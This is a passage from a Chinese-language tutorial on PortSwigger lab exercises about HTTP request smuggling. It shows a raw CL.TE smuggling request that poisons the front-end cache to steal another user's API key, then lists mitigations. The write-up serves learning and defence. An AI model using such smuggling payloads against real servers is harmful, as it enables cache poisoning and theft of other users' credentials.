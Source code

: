 ```
POST / HTTP/1.1
Host: acba1f671f8c7fc0805f8775001c003e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=qKO9bEKjYR759Tozcni7YKBU52SHcVlQ
Upgrade-Insecure-Requests: 1
Content-Length: 44
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```

然后在无痕浏览器中加载主页，只要我们多发送几次，一旦用户访问的是静态资源，就可能会被 Front 服务器缓存起来，我们就可以拿到用户`/private/messages`的信息了。这里可能需要大量的重复发包，因为需要构造让静态资源缓存，还是需要一定运气的。

![image-20200716140839913](http%E8%B5%B0%E7%A7%81/1594912601.png!small)

上图为自己在无痕中访问获得的API Key。

![image-20200716185545018](http%E8%B5%B0%E7%A7%81/1594912608.png!small)

上图是机器人的API Key，整了一个下午终于获取到了机器人的API Key了（有点强迫症，如果留一个实验没通过很难受），他那个机器人有点问题，还是要看运气。或许欧皇发一两次包就遇到了。

## 6、如何防止HTTP请求走私漏洞

如果前端服务器通过同一网络连接将多个请求转发到后端服务器，并且后端连接所使用的协议承担着两个服务器不同意边界之间的风险，则会出现HTTP请求走私漏洞。要求。防止HTTP请求走私漏洞的一些通用方法如下：

- 禁用后端连接的重用，以便每个后端请求通过单独的网络连接发送。
- 使用HTTP / 2进行后端连接，因为此协议可防止对请求之间的边界产生歧义。
- 前端服务器和后端服务器使用完全相同的Web服务器软件，以便它们就请求之间的界限达成一致。

在某些情况下，可以通过使前端服务器规范化歧义请求或使后端服务器拒绝歧义请求并关闭网络连接来避免漏洞。但是，这些方法比上面确定的通用缓解措施更容易出错。
